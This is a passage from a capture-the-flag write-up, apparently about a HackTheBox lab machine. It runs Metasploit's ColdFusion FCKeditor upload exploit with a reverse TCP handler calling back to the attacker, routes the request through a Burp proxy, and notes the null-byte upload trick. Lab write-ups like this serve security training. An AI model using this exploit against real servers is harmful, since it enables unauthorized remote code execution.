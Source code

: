 ```text
   VHOST                                                                                      no        HTTP server virtual host
Exploit target:
   Id  Name
   --  ----
   0   Universal Windows Target

msf5 exploit(windows/http/coldfusion_fckeditor) > set RHOST 10.10.10.11
RHOST => 10.10.10.11
msf5 exploit(windows/http/coldfusion_fckeditor) > set RPORT 8500
RPORT => 8500
```

With target set let's run the exploit:

```text
msf5 exploit(windows/http/coldfusion_fckeditor) > run

[*] Started reverse TCP handler on 10.10.14.31:4444
[*] Sending our POST request...
[-] Upload Failed...
[*] Exploit completed, but no session was created.
```

Fails almost instantly, seems the delay on the webserver is stopping msf from executing. Go to Burp, set up a new listener, bind to port 8500:

![burp-proxy](/assets/images/2020-08-02-22-01-55.png)

Redirect any requests that come to it on to the box:

![burp-proxy-listeners](/assets/images/2020-08-02-22-02-20.png)

Choose Ok to get out and make sure it's enabled:

![burp-proxy-enabled](/assets/images/2020-08-02-22-02-54.png)

Back to msf and set RHOST to 127.0.0.1 now, so it goes via Burp:

```text
msf5 exploit(windows/http/coldfusion_fckeditor) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf5 exploit(windows/http/coldfusion_fckeditor) > exploit
[*] Started reverse TCP handler on 10.10.14.31:4444
[*] Sending our POST request...
```

Now go back to Burp, will see it intercepted:

![burp-intercept](/assets/images/2020-08-02-22-04-18.png)

Can see the exploit is using a null byte (%00) at the end to execute code.

Send to Repeater and have a look:

![burp-response](/assets/images/2020-08-02-22-04-39.png)
